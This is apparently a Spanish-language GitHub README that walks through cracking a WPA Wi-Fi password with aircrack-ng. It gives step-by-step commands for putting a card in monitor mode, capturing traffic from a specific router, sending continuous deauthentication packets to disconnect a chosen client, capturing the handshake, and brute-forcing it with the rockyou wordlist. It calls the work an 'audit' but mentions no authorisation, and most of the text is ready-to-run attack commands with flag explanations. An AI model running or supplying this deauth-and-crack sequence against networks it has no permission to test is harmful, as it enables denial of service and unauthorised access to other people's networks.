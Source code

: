 # Informacion importante de algunos de los comandos

 ![comandos-aircrak](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/fb6f860a-2491-41bf-9a56-fc8152d71266)

 
 ## Antes de emepezar se recomienda que creas una carpeta donde se van a guardar archivos que mas adelante vayamos a generar.

> Nos convertimos en usuario root

	sudo su

> Creamos la carpeta

 	mkdir webAuth
  
> Nos movemos a la carpeta y desde ahi trabajamos

	cd webAuth/

## Vemos cual es el nombre de nuestra interfaz de red

	iwconfig

![iwconfig](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/a2931782-dd40-44c4-92f0-a480efee4212)

Montamos a nuestra interfaz

	airmon-ng start wlp0s20f3  

### Foto 
> Volvemos a usar el comando **iwconfig** para mostrar que en nuestra tarjeta de red se haya hecho el montaje adecuado.

![image](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/53d2d6d8-6a08-41a2-b7c1-9b776ca68094)


> [!Note]
> No en todas las ocaciones se hace ver el nombre con la extencon **mon**. La manera en la que yo veo que se llevo correcto el montaje es cuando he perdido el internet.


## Capturamos los paquetes de la red con el siguiente comando: 

	airodump-ng wlp0s20f3mon

### Foto

![analisis_red](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/98ecd24a-9c01-4f60-a361-e0a7f5619e95)

## Analizamos las redes conectadas a un solo router
#### Explicacion del comando antes de ejecutar
Componentes del Comando

  *  `airodump-ng`: Esta es la herramienta principal del conjunto de herramientas aircrack-ng utilizada para capturar paquetes de redes inalámbricas y mostrar información sobre puntos de acceso y clientes conectados.

  *  `-c1`: Este es el canal en el que airodump-ng va a escuchar. El 1 indica que va a escuchar en el canal 1. Los canales de Wi-Fi varían de 1 a 14 (dependiendo de la región).

  *  `-w auditoria`: Este es el prefijo del nombre del archivo donde se guardarán los datos capturados. En este caso, los archivos de salida se llamarán auditoria-01.cap, auditoria-02.cap, etc.

  *  `-d 50:4E:DC:38:C2:60`: Este es el filtro de dirección MAC. airodump-ng solo capturará paquetes que tengan como destino o procedan de esta dirección MAC específica, que corresponde a un dispositivo o punto de acceso en particular.

  *  `wlp0s20f3mon`: Este es el nombre de la interfaz de red en modo monitor que se utilizará para la captura de paquetes. El modo monitor permite que la tarjeta de red capture todo el tráfico inalámbrico que puede recibir, no solo el tráfico destinado a ella.

```bash
airodump-ng -c1 -w auditoria -d 50:4E:DC:38:C2:60  wlp0s20f3mon
```
### Foto

![auditoria-2](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/4bff2c5a-9e73-41fb-8410-cbb2a66923d9)


## Hacemos el ataque

#### Explicacion del comando
### Explicacion del comando anterior.
-   `aireplay-ng` se utiliza para enviar paquetes de desautenticación a una red inalámbrica, lo cual puede desconectar dispositivos específicos o todos los dispositivos de esa red.
-   `--deauth [number of deauth packets]`: Especifica el número de paquetes de desautenticación a enviar. Usar `0` enviará paquetes de desautenticación de manera continua.
-   `-c [target device MAC address]`: La dirección MAC del dispositivo que deseas desconectar.
-   `-a [AP MAC address]`: La dirección MAC del punto de acceso (router).
-   `[interface]`: La interfaz en modo monitor (por ejemplo, `wlan0mon`).

> [!IMPORTANT]
> Si no especificas `-c [target device MAC address]`, se intentará desconectar todos los dispositivos de la red.
```
aireplay-ng --deauth 0 -a 50:4E:DC:38:C2:60 -c B2:11:8E:B5:DF:0D  wlp0s20f3mon
```
### Foto


![ataque](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/cca65636-9e6c-4bc8-96db-56f3019b0b26)


Esperamos a que salga en la parte de arriba 

> WPA handshake: 50:4E:DC:38:C2:60 

![image](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/c59e0f83-6bdc-46dc-b68c-9ccf7981a13b)


## Comparamos la contrasen con nuestro archivo 

	aircrack-ng auditoria-01.cap -w rockyou.txt

### Foto

![crackingpss](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/3bc59e9a-e8ef-40b7-a5b6-f8f3a6b5f51c)


## Regresamos a nuestra interfaz normal

	airmon-ng stop wlp0s20f3mon


![apagamos-montaje-interfaz](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/673ac3b4-159a-4dab-8087-6839a0f2553e)

